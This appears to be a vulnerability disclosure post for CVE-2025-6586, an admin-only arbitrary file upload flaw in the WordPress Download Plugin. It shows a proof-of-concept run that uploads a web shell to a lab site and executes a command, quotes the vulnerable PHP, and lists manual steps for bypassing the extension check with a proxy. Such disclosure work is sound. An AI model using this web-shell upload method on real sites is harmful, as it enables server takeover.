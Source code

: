 +++
title = 'Download Plugin <= 2.2.8 - Authenticated (Admin+) Arbitrary File Upload via the dpwap_plugin_locInstall Function'
date = 2025-07-03T00:00:00+00:00
hideToc = true
tags = ["CVE", "WordPress"]
+++
### CVE-2025-6586

The [Download Plugin](https://wordpress.org/plugins/download-plugin/) does not sanitize the file types of the `dpwap_plugin_locInstall` function
exposed via the `mul_upload` admin page, allowing administrators or above to upload arbitrary files and
potentially gain code execution on the server.

## TL;DR Exploits
A POC [cve-2025-6586.py](https://github.com/d0n601/CVE-2025-6586/blob/master/cve-2025-6586.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.
```
python3 cve-2025-6586.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
Web Shell Location: https://lab1.hacker/wp-
content/uploads/dpwap_logs/files/tmp/shell.php

Executing test command: ip addr
    <pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN
group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
        valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
        valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
v       alid_lft 75221sec preferred_lft 75221sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic
mngtmpaddr noprefixroute
        valid_lft 86354sec preferred_lft 14354sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link
        valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP
group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
        valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link
        valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue
state DOWN group default
    link/ether 02:42:77:47:94:a5 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
        valid_lft forever preferred_lft forever
</pre>

```

## Details

The `dpwap_plugin_multiple_upload_func` function is exposed in the `mul_upload` admin page. On line [80](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/Base.php#L80) of `/wp-content/plugins/download-plugin/app/Plugins/Base.php` the function includes [multiple_upload_plugin.php](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/templates/multiple_upload_plugin.php).

```php
// multiple upload function
public function dpwap_plugin_multiple_upload_func()
{
$dpwapObj = new Dpwapuploader();
$plugin_multiple_upload_file = DPWAP_DIR . DS . 'app' . DS .
'Plugins' . DS . 'templates' . DS . 'multiple_upload_plugin.php';
include_once $plugin_multiple_upload_file;
}
```

By default the full path of $plugin_multiple_upload_file should be `/wp-
content/plugins/download-plugin/app/Plugins/templates/multiple_upload_plugin.php`.
The template will also check for a `$_POST['dpwap_locInstall']` and `$_FILES['dpwap_locFiles']['name'][0]`. If those are present it will call `$dpwapObj->dpwap_plugin_locInstall();` within the code that builds the html form on line [47](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/templates/multiple_upload_plugin.php#L47).

```php
...
...
<div class="inside">
    <?php
        if (isset($_POST['dpwap_locInstall']) && $_FILES['dpwap_locFiles']['name'][0] != ""){
        echo '<form id="form_alldpwap" name="form_alldpwap" method="post" action="admin.php?page=activate-status">';
        echo "<div class='dpwap_main'>";
        $dpwapObj->dpwap_plugin_locInstall();
        echo "</div>";
        echo '<input class="button button-primary dpwap_allactive"
type="submit" name="dpwap_locInstall" onclick="activateAllPLugins()"
value="'. esc_attr__('Activate all', 'download-plugin').'">';
        echo '</form>';
        }
    ?>
</div>
...
...
```

As seen below, the `dpwap_plugin_locInstall` function within `/wp-content/plugins/download-plugin/app/Plugins/Dpwapuploader.php` on line [300](https://plugins.trac.wordpress.org/browser/download-plugin/trunk/app/Plugins/Dpwapuploader.php#L300) will move the uploaded files to a web accessible directory, keeping the original file name and extension. Ex: `https://TARGETSITEDOMAIN/wp-content/uploads/dpwap_logs/files/tmp/shell.php`

```php
public function dpwap_plugin_locInstall(){
// Increase the resources
@ini_set( 'memory_limit', '1024M' );
@ini_set( 'upload_max_filesize', '640M' );
@ini_set( 'post_max_size', '640M' );
check_admin_referer( $this->key );
echo '<div class="dpwap_h3">'.esc_html__( 'Installing Plugins',
'download-plugin' ) .':</div>';
for ( $i = 0; $i < count( $_FILES['dpwap_locFiles']['name'] ); $i++
) {
$dpwap_locFilenm = sanitize_file_name($_FILES['dpwap_locFiles']
['name'][$i]);
if ( strpos( $dpwap_locFilenm, 'mpipluginsbackup' ) === false )
{
//Get the temp file path
$tmpFilePath = $_FILES['dpwap_locFiles']['tmp_name'][$i];
//Make sure we have a filepath
if ( $tmpFilePath != "" ) {
//Setup our new file path
$newFilePath =
DPWAPUPLOADDIR_PATH.'/dpwap_logs/files/tmp/' . $dpwap_locFilenm;
//Upload the file into the temp dir
if( @move_uploaded_file( $tmpFilePath, $newFilePath ) )
{
$dpwap_tempurls[] =
DPWAPUPLOADDIR_PATH.'/dpwap_logs/files/tmp/'.$dpwap_locFilenm;
}
}
}
else{
echo esc_html__('This is', 'download-plugin') .'
<b>'.esc_html($dpwap_locFilenm).'</b> '.esc_html__( 'not a valid zip
archive.', 'download-plugin' );
}
}
if( $dpwap_tempurls )
$this->dpwap_get_packages( $dpwap_tempurls, "activate", "nocreate",
"upload_locFiles" );
}
```


## Manual Reproduction
1. Login to the admin panel and navigate to `Plugins -> Add Plugin`.
2. Click the `Upload Multiple Plugins` at the top, this button is added to the UI by the [Download Plugin](https://wordpress.org/plugins/download-plugin/).
![0](/posts/images/cve-2025-6586/0.png)
3. Now from `/wp-admin/admin.php?page=mul_upload`, start BurpSuite or a similar proxy.
![1](/posts/images/cve-2025-6586/1.png)
4. Take a `php` file, and replace its extention with `zip` to pass the front end validation, and then click `Install Now`.
![2](/posts/images/cve-2025-6586/2.png)
5. Modify the intercepted request on the fly or in a Repeater tab to change the file extension back to `php`.
![3](/posts/images/cve-2025-6586/3.png)
6. Browse to the newly uploaded file to trigger code execution.
![4](/posts/images/cve-2025-6586/4.png)
